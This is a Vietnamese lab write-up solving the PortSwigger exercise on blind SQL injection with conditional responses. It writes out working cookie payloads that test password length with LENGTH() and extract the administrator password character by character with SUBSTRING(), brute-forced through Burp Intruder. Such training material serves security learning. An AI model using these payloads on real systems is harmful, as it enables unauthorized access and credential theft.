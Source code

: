# Blind SQL injection with conditional responses

Khi mới vào ta thấy đây là 1 trang web bình thường, thử `F5` xem nhé, vậy là thấy sự khác nhau trước và sau khi tải lại trang:

- Trước khi `Reload`:

![](https://cdn.discordapp.com/attachments/1124588087931043891/1135511855901708328/image.png)

- Sau khi `Reload`:

![](https://cdn.discordapp.com/attachments/1124588087931043891/1135511905327403018/image.png)

Vậy là xuất hiện thông báo `Welcome back!`.

- Ta thay đổi Cookie thành dạng:
   - `TrackingId=xxx' and '1'='1` thì vẫn thấy thông báo `Welcome back!`.
   - `TrackingId=xxx' and '1'='2` thì không thấy thông báo `Welcome back!` nữa.

Vậy đây là Blind SQL injection.

Bài lab này cho ta biết dữ liệu bên trong bảng `users` gồm 2 cột `username` và `password`, yêu cầu là ta phải đăng nhập với tài khoản `administrator`.

Sử dụng câu lệnh sau để xem có bao nhiêu kí tự trong mật khẩu của quản trị viên, nếu xuất hiện thông báo `Welcome back!` nghĩa là điều kiện bên trong câu lệnh là `True`
- `TrackingId=xxx' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`
- `TrackingId=xxx' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a`
- `TrackingId=xxx' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a`
...

- `TrackingId=xxx' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>19)='a`
- `TrackingId=xxx' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a` (Tới đây thì đã False)

Vậy là mật khẩu quản trị viên chưa 20 kí tự.

![](https://github.com/Luwcj/SQLi/blob/main/Portswigger/Blind%20SQL%20injection%20with%20conditional%20responses/5.1.png?raw=true)

Tiếp theo ta sử dụng câu lệnh sau để dò từng kí tự của mật khẩu:
- `TrackingId=xxx' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='3`

Ta send request tới Intruder và brute force từng kí tự của mật khẩu 

- `TrackingId=xxx' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§b§` ( add biến cần thay đổi vào payload)

![](https://cdn.discordapp.com/attachments/1124588087931043891/1135948776838803548/image.png)

- Tiếp theo click vài `Payloads` rồi add thêm items(bao gồm tất cả chữ cái và chữ số) rồi `Start attacks`

![](https://cdn.discordapp.com/attachments/1124588087931043891/1135949207107280906/image.png)

Ta để ý ở phần `Length` xem cái nào dài nhất thì cái đó chính là `True` và chứa kí tự của mật khẩu.

Tiếp theo ta thay đổi SUBSTRING(password,`thứ tự của kí tự trong mật khẩu`,1) rồi brute force và sẽ tìm được mật khẩu (vì mình dùng BurpSuite bản lỏd nên phải làm như này, nếu là Burp pro thì chỉ cần brute một lần là có mật khẩu luôn rùi).
Sau khi có mật khẩu rùi thì đăng nhập với tên đăng nhập `administrator` và solve lab thui.

